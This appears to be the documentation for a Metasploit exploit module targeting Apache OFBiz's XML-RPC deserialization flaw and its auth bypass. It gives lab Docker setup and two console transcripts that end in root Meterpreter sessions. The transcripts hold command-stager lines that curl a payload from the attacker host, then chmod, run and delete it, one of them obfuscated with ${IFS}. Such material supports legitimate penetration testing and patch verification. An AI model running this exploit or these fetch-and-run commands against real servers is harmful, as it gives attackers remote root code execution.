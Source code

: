 ## Vulnerable Application

### Description

This module exploits a Java deserialization vulnerability in Apache
OFBiz's unauthenticated XML-RPC endpoint `/webtools/control/xmlrpc` for
versions prior to 17.12.04.

Versions up to 18.12.11 are exploitable utilizing an auth bypass CVE-2023-51467
and use the `CommonsBeanutils1`` gadget chain.

Verified working on 18.12.09, and 15.12

### Setup

#### 15.12

You can use <https://hub.docker.com/r/opensourceknight/ofbiz>.

1. Initialize the database with demo data (`INIT_DB=2`) and bind to ports 8080 and 8443
    * `docker run -p 8080:8080 -p 8443:8443 --rm -e INIT_DB=2 opensourceknight/ofbiz:15.12`

#### 18.12.09

`docker run -p 8080:8080 -p 8443:8443 --rm -e INIT_DB=2 vulhub/ofbiz:18.12.09`

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### AUTHBYPASS

Utilize CVE-2023-49070 and CVE-2023-51467 to bypass auth, also changes the gadget chain to
`CommonsBeanutils1` to work with versions newer than ofbiz 17.

## Scenarios

### Apache OFBiz from [Docker](#setup) 15.12.

```
msf6 > use exploit/linux/http/apache_ofbiz_deserialization
[*] Using configured payload linux/x64/meterpreter_reverse_https
msf6 exploit(linux/http/apache_ofbiz_deserialization) > options

Module options (exploit/linux/http/apache_ofbiz_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8443             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The local listener hostname
   LPORT  8443             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/apache_ofbiz_deserialization) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set lhost 192.168.1.7
lhost => 192.168.1.7
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set srvport 8888
srvport => 8888
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run

[*] Started HTTPS reverse handler on https://192.168.1.7:8443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target can deserialize arbitrary data.
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_https
[*] Using URL: http://0.0.0.0:8888/AGB4cD
[*] Local IP: http://10.3.227.250:8888/AGB4cD
[*] Generated command stager: ["curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv"]
[*] Executing command: sh -c curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv
[*] Client 192.168.1.7 (curl/7.38.0) requested /AGB4cD
[*] Sending payload to 192.168.1.7 (curl/7.38.0)
[+] Successfully executed command: sh -c curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv
[*] https://192.168.1.7:8443 handling request from 192.168.1.7; (UUID: btpun2w7) Redirecting stageless connection from /1fY1FTBqS3Z81nrUI-E3VQ3E-Kqn5Kx4lP2cAzF4bmUgveaMUNylCEh1ohulKhz1fERPwYd8u4DAauCLZ8UDm5JaB7P with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.1.7:8443 handling request from 192.168.1.7; (UUID: btpun2w7) Attaching orphaned/stageless session...
[*] Command Stager progress - 104.14% done (151/145 bytes)
[*] Meterpreter session 1 opened (192.168.1.7:8443 -> 192.168.1.7:61375) at 2020-08-14 21:42:11 -0500
[*] Server stopped.

meterpreter > getuid
Server username: root @ 09d1564c6b2c (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 8.4 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### Apache OFBiz from [Docker](#setup) 18.12.09.

```
[msf](Jobs:0 Agents:0) > use exploit/linux/http/apache_ofbiz_deserialization
[*] Using configured payload linux/x64/meterpreter_reverse_https
[msf](Jobs:0 Agents:0) exploit(linux/http/apache_ofbiz_deserialization) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
[msf](Jobs:0 Agents:0) exploit(linux/http/apache_ofbiz_deserialization) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
[msf](Jobs:0 Agents:0) exploit(linux/http/apache_ofbiz_deserialization) > set rport 8080
rport => 8080
[msf](Jobs:0 Agents:0) exploit(linux/http/apache_ofbiz_deserialization) > set srvport 8999
srvport => 8999
[msf](Jobs:0 Agents:0) exploit(linux/http/apache_ofbiz_deserialization) > set lport 9999
lport => 9999
[msf](Jobs:0 Agents:0) exploit(linux/http/apache_ofbiz_deserialization) > set lhost 172.17.0.1
lhost => 172.17.0.1
[msf](Jobs:0 Agents:0) exploit(linux/http/apache_ofbiz_deserialization) > exploit

[*] Started HTTPS reverse handler on https://172.17.0.1:9999
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Apache OFBiz detected
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_https
[*] Using URL: http://172.17.0.1:8999/t8Ht92vyG
[*] Client 172.17.0.2 (curl/7.74.0) requested /t8Ht92vyG
[*] Sending payload to 172.17.0.2 (curl/7.74.0)
[+] Successfully executed command: curl -so /tmp/ccOiSBWw http://172.17.0.1:8999/t8Ht92vyG;chmod +x /tmp/ccOiSBWw;/tmp/ccOiSBWw;rm -f /tmp/ccOiSBWw
[*] https://172.17.0.1:9999 handling request from 172.17.0.2; (UUID: jfvsjqze) Redirecting stageless connection from /bor18uxq2-DRFNcWtLP2lwc954AkmwDFJGPdMCAemNwEhbK9MZE1sbFjd87crw4EoQ8IRya-nD4j7s9vkiPXENKkm6Hai6rTX1l6MxXV with UA 'Mozilla/5.0 (Macintosh; Intel Mac OS X 14.0; rv:109.0) Gecko/20100101 Firefox/118.0'
[*] https://172.17.0.1:9999 handling request from 172.17.0.2; (UUID: jfvsjqze) Redirecting stageless connection from /bor18uxq2-DRFNcWtLP2lwBlG7PmcChFTs3mrZWe19ux0Ge4-K3sXMWLGzskiOvEJN9O34cT2vhArtS36BI-SM8HDCBKggdyux0 with UA 'Mozilla/5.0 (Macintosh; Intel Mac OS X 14.0; rv:109.0) Gecko/20100101 Firefox/118.0'
[*] https://172.17.0.1:9999 handling request from 172.17.0.2; (UUID: jfvsjqze) Redirecting stageless connection from /bor18uxq2-DRFNcWtLP2lwS1jEDX4_Jx7YDDvUtpywgCk with UA 'Mozilla/5.0 (Macintosh; Intel Mac OS X 14.0; rv:109.0) Gecko/20100101 Firefox/118.0'
[*] https://172.17.0.1:9999 handling request from 172.17.0.2; (UUID: jfvsjqze) Attaching orphaned/stageless session...
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Meterpreter session 1 opened (172.17.0.1:9999 -> 172.17.0.2:47500) at 2024-01-16 20:04:06 -0500
[*] Server stopped.

(Meterpreter 1)(/usr/src/apache-ofbiz) > getuid
Server username: root
(Meterpreter 1)(/usr/src/apache-ofbiz) > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.4 (Linux 6.5.0-kali3-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/usr/src/apache-ofbiz) > 
```